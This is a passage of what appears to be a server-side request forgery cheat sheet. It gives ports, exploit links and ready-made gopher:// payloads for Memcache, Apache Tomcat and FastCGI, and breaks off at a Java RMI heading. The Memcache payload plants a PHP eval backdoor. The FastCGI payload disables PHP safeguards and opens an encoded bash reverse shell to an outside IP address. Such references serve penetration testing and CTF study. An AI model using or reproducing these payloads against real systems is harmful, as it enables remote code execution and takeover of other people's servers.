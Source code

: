 <div id="memcache"></div>

## Memcache

**Commonly bound port: 11211**

- [vBulletin Memcache RCE](https://www.exploit-db.com/exploits/37815)
- [GitHub Enterprise Memcache RCE](https://www.exploit-db.com/exploits/42392)
- [Example Gopher payload for Memcache](https://blog.safebuff.com/2016/07/03/SSRF-Tips/#SSRF-memcache-Getshell)

```bash
gopher://[target ip]:11211/_%0d%0aset ssrftest 1 0 147%0d%0aa:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";s:5:"/.*/e";s:7:"replace";s:33:"eval(base64_decode($_POST[ccc]));";}}s:13:"rewritestatus";i:1;}%0d%0a
gopher://192.168.10.12:11211/_%0d%0adelete ssrftest%0d%0a
```

<div id="tomcat"></div>

## Apache Tomcat

**Commonly bound ports: 80,443 (SSL),8080,8443 (SSL)**

Effective against Tomcat 6 only:

[gopher-tomcat-deployer](https://github.com/pimps/gopher-tomcat-deployer)

CTF writeup using this technique:

[From XXE to RCE: Pwn2Win CTF 2018 Writeup](https://bookgin.tw/2018/12/04/from-xxe-to-rce-pwn2win-ctf-2018-writeup/)


<div id="fastcgi"></div>

## FastCGI

**Commonly bound ports: 80,443 (SSL)**

This was taken from [here](https://blog.chaitin.cn/gopher-attack-surfaces/).

```bash
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/172.19.23.228/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00
```

<div id="java-rmi"></div>

## Java RMI
